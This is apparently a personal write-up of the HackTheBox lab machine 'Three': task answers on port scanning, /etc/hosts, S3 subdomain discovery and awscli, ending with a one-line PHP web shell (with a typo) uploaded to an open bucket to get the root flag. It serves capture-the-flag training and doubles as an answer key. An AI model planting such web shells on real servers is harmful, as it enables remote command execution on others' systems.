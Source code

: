 ```yaml
---
title: "Three"
description: A writeup on the machine Three from HackTheBox Starting point Tier1 level 
date: 2024-09-20
draft: false # this section allows the post to be published and be public, is it is set to true the post will not be published.
summary: "Why did the S3 bucket break up with the EC2 instance?  Because it found someone with less latency! 😄" # Here you can write a small summary of the post if needed
tags: [HTB, Very Easy ]
categories: [Tier1, Starting point]
---
```

# Three

![FZaL4tPWYAEN9lS.jpg](FZaL4tPWYAEN9lS.jpg)

## Task 1

How many TCP ports are open?

![image.png](image.png)

2

## Task 2

What is the domain of the email address provided in the "Contact" section of the website? 

![image.png](image%201.png)

thetoppers.htb 

## Task 3

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? 

![image.png](image%202.png)

```jsx
/etc/hosts directory
```

## Task 4

Which sub-domain is discovered during further enumeration? 

![image.png](image%203.png)

s3

## Task 5

Which service is running on the discovered sub-domain? 

```jsx
Amazon s3
```

## Task 6

Which command line utility can be used to interact with the service running on the discovered sub-domain? 

![image.png](image%204.png)

awscli

## Task 7

Which command is used to set up the AWS CLI installation? 

```jsx
aws configure
```

## Task 8

What is the command used by the above utility to list all of the S3 buckets? 

![image.png](image%205.png)

```jsx
aws s3 ls
```

## Task 9

This server is configured to run files written in what web scripting language? 

![image.png](image%206.png)

PHP

for obtaining the root flag, we had to write a small php code that would prompt a cmdlet for us to get the flag, however, we had to upload the code to the s3 bucket inorder to be able to access it.

The code we shall use is as follows.

```jsx
<?php system(_$GET['cmd']); ?>
```

![image.png](image%207.png)

we shall then access the shell.php file form the url in order to get our root flag

![image.png](image%208.png)

![image.png](image%209.png)

![image.png](image%2010.png)

and with that, we have pawned the machine.